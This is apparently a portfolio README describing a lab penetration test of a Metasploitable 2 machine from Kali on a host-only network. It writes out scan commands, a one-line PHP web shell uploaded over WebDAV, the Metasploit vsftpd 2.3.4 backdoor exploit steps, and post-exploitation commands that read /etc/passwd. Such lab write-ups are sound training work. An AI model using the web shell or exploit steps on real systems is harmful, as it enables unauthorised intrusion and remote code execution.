




# Project 3: Penetration Testing in a Lab

## Goal

Simulate a penetration test against a vulnerable machine in a safe lab environment, then document the findings.

## Methodology

The penetration test followed a structured approach:

1. Reconnaissance & Scanning
2. Vulnerability Scanning
3. Exploitation
4. Post-Exploitation
5. Reporting

## Scope

Attacker VM: Kali Linux

Target VM: Metasploitable 2

Environment: Host-only network

## Tools Used

- Nmap (port/service discovery)
- Dirb (web vulnerability scanning)
- Cadaver (file injection)
- Metasploit Framework (exploitation)

## Attack Path

### 1\. Reconnaissance & Scanning

Find open ports and services:

    nmap -sV -A &lt;target_IP&gt;
    
  \-sV → service/version detection
  \-A → OS detection, traceroute, script scanning

Open ports: 21 (FTP), 22 (SSH), 80 (HTTP)

### 2\. Web Vulnerability Scanning

Check the web service:

    dirb http://&lt;target_IP&gt;
    
- Looks for accessible web servers.

### 3\. WebDav file injection

Create a shell.php file and add _&lt;?php system($\_GET\['cmd'\]); ?&gt;_

    cadaver http://&lt;target_IP&gt;
    
    put shell.php

Now you have Remote Code Execution (RCE) on the server.

### 4\. Exploitation with Metasploit

Example: FTP Backdoor Exploit (vsftpd 2.3.4)

    msfconsole
  
    search vsftpd
    
    use exploit/unix/ftp/vsftpd_234_backdoor
    
    set RHOST &lt;target_IP&gt;
  
    exploit

### 5\. Post-Exploitation

Once inside:

    whoami
    
    uname -a
    
    cat /etc/passwd

